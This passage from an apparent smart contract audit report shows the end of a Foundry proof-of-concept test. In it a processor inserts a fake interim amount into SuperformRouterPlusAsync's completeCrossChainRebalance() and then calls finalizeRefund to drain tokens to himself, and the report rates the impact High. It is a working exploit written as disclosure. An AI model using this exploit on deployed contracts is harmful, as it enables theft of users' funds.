 ```solidity
    vm.stopPrank();

    // simulate transfers to router plus async
    deal(sfData.liqRequest.token, address(ROUTER_PLUS_ASYNC_SOURCE), 3e18);

    // processor complete the rebalance for his payload
    vm.startPrank(deployer);

    // these params are not used because the function will end with a refund
    uint256[][] memory newAmounts = new uint256[][](1);
    newAmounts[0] = new uint256[](1);
    newAmounts[0][0] = 1e18;

    uint256[][] memory newOutputAmounts = new uint256[][](1);
    newOutputAmounts[0] = new uint256[](1);
    newOutputAmounts[0][0] = 1e18;

    LiqRequest[][] memory liqRequests = new LiqRequest[][](1);
    liqRequests[0] = new LiqRequest[](1);
    liqRequests[0][0] = sfData.liqRequest;

    ISuperformRouterPlusAsync.CompleteCrossChainRebalanceArgs memory completeArgs = ISuperformRouterPlusAsync
        .CompleteCrossChainRebalanceArgs({
        receiverAddressSP: address(deployer),
        routerPlusPayloadId: 3,
        amountReceivedInterimAsset: 3e18, // insert a fake amountReceivedInterimAsset
        newAmounts: newAmounts,
        newOutputAmounts: newOutputAmounts,
        liqRequests: liqRequests
    });

    SuperformRouterPlusAsync(ROUTER_PLUS_ASYNC_SOURCE).completeCrossChainRebalance{ value: 1 ether }(completeArgs);

    // wait for delay to pass
    vm.warp(block.timestamp + 86_401);

    // finalize his refund stealing all tokens
    uint256 balanceBefore = IERC20(sfData.liqRequest.token).balanceOf(deployer);
    SuperformRouterPlusAsync(ROUTER_PLUS_ASYNC_SOURCE).finalizeRefund(3);
    vm.stopPrank();

    uint256 balanceDiff = IERC20(sfData.liqRequest.token).balanceOf(deployer) - balanceBefore;
    assertEq(balanceDiff, 3e18);
}
```

#### Impact

High. A malicious processor can steal all funds from the `SuperformRouterPlusAsync` contract, issuing a refund to himself or disrupting the core functionality of `completeCrossChainRebalance()`.
